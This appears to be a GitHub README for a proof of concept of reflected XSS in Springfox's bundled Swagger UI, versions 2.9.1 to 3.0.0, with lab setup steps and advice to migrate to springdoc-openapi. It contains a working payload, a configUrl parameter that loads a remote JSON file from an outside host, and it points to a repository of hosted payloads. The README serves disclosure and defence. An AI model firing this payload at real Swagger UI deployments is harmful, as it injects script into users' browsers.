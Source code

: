 # Springfox XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/evrentan/my-swagger-ui-example](https://github.com/evrentan/my-swagger-ui-example)

All credit for code goes to: [evrentan](https://github.com/evrentan) for providing the excellent example code!

## Quick Details
**Package**: [springfox-swagger-ui](https://mvnrepository.com/artifact/io.springfox/springfox-swagger-ui)

**Versions Affected**: [2.9.1, 3.0.0]

**Type of Issue**: [Reflected XSS](https://owasp.org/www-community/attacks/xss/)

**Payload/PoC**: `?configUrl=https://xss.smarpo.com/test.json` -- Append this to end of the Swagger UI URL and an alert dialog should fire.

* eg. `https://example.com/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json`

## Am I vulnerable?
If your application bundles the Swagger UI using one of the many Springfox packages (2.9.1 to 3.0.0 versions) AND you make the Swagger UI "routable" (aka, it can be loaded in a browser), your application has an XSS issue.

For example, if your app includes `springfox-boot-starter:3.0.0` and your Swagger UI is available at https://localhost/swagger -- you are vulnerable.

For example, if your app includes `springfox-swagger-ui:2.10.5` and your Swagger UI is available at: https://example.com/swagger/swagger-ui -- you are vulnerable.

## About
Springfox is a commonly used library for JVM-based languages to easily provide JSON documentation.
Springfox includes a vulnerable version of the Swagger UI with known XSS vulnerabilities.

The vulnerable Swagger UI bundled version is shown at: [https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24](https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24)

## Running the PoC

### With docker
1. Run: `docker build -t springfox-xss .`
2. Run: `docker run -p 8080:8080 springfox-xss` and wait for the springboot app to spin-up
3. Navigate to: http://localhost:8080/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json

### Without docker
Ensure you have JDK 11 available to properly build this.

1. Run: `mvn spring-boot:run`
2. Navigate to: http://localhost:8080/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json

XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)

## Mitigation / Solutions

Good news, bad news. Springfox appears to no longer be maintained, however [springdoc-openapi](https://github.com/springdoc/springdoc-openapi) is a drop-in replacement that is actively being maintained.

The migration guide to springdoc from springfox can be found at: [https://springdoc.org/#migrating-from-springfox](https://springdoc.org/#migrating-from-springfox).

## Copyright

GNU General Public License v3.0
Permissions of this strong copyleft license are conditioned on making available complete source code of licensed works and modifications, which include larger works using a licensed work, under the same license. Copyright and license notices must be preserved. Contributors provide an express grant of patent rights.
